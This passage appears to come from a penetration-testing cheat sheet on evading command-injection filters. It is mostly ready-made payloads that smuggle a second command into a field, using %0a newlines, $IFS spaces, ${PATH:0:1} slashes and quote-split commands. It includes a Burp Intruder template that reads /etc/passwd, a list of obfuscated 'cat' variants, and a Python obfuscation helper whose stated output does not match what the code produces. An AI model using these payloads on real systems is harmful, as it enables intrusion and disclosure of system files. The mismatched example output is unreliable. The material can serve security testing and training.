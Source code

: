 ### 3. Character Combination

**Advanced Payload Construction:**
```bash
# Combine all bypass techniques:
# - Newline injection operator (%0a)
# - Environment variable space replacement ($IFS)  
# - Environment variable path extraction (${PATH:0:1})
# - Command obfuscation with quotes (c'a't)

127.0.0.1%0ac'a't$IFS${PATH:0:1}path${PATH:0:1}to${PATH:0:1}file
```

---

## Practical Applications

### 1. Web Application Testing

**Burp Suite Intruder Setup:**
```
# Payload positions for command obfuscation
127.0.0.1%0a§c'a't§$IFS${PATH:0:1}etc${PATH:0:1}passwd

# Payload list:
cat
c'a't  
c"a"t
c\a\t
c'a'\t
```

### 2. Automated Obfuscation

**Python Script Example:**
```python
def obfuscate_command(cmd):
    """Simple quote-based obfuscation"""
    obfuscated = ""
    for i, char in enumerate(cmd):
        if i % 2 == 0:
            obfuscated += f"'{char}'"
        else:
            obfuscated += char
    return obfuscated

# Usage
original = "whoami"
obfuscated = obfuscate_command(original)  # w'h'oam'i'
```

---
